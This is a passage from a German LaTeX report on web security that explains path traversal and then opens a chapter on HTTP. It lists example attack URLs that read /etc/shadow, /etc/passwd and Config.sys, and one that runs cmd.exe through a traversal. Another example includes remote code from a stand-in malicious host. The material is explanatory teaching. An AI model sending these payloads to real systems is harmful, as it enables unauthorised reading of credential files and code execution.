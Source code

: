 \subsection{Grundprinzip}
\label{sec:PT_GP}
Es sollte nicht möglich sein auf Dateien, die sich außerhalb vom Web-Directory befinden, zugreifen zu können. Beim Path-Traversal versucht der Angreifer durch Beifügen von Pfadangaben das Verzeichnis zum Root-Verzeichnis zu wechseln. Dafür benutzt der Angreifer ../ als Parameter zum Wechseln des Verzeichnisses.
\subsection{Beispiele}
\label{sec:PT_BSP}
\begin{enumerate}
\item Windows
\begin{enumerate}
\item \url{http://www.example.com/index.foo
				?item=../../../Config.sys}
\item \url{http://www.example.com/index.foo?\\item=../../../Windows/System32/cmd.exe?/C+dir+C:}
\end{enumerate}
\item Linux
\begin{enumerate}
\item \url{http://some_site.com.br/../../../../etc/shadow }
\item \url{http://some_site.com.br/get-files?file=/etc/passwd}
\end{enumerate}
\end{enumerate}
Anhand dieser Beispiele ist ersichtlich, dass diese Schwäche einem erlaubt lokale Passwörter und Windows Konfigurationsdateien auszulesen.  
\\
Unter Linux ist diese Schwäche kritischer, da sie dort Zugriff auf die komplette Festplatte gewährt. In Windows kann lediglich auf das lokale Verzeichnis zugegriffen werden, in welchem sich die Webseite befindet.
\\
Eine weitere Anwendungsmöglichkeit ist es auf seine eigene bösartige Seite zu verweisen und über diese Seite Code zu injizieren, mit dem noch mehr Möglichkeiten verschafft werden können. \\
\url{http://some_site.com.br/some-page?page=http://BoeseSeite.com.br/other-page.htm/malicius-code.php}\\
\\ vgl. \textcite{Path-Trav}
\section{HTTP-Protokoll}
Da sich die fortführenden Themen mit dem HTTP-Protokoll und HTTP Requests beschäftigen werden, wird in diesem Kapitel kurz das Hypertext Transfer Protocol (HTTP) erklärt.
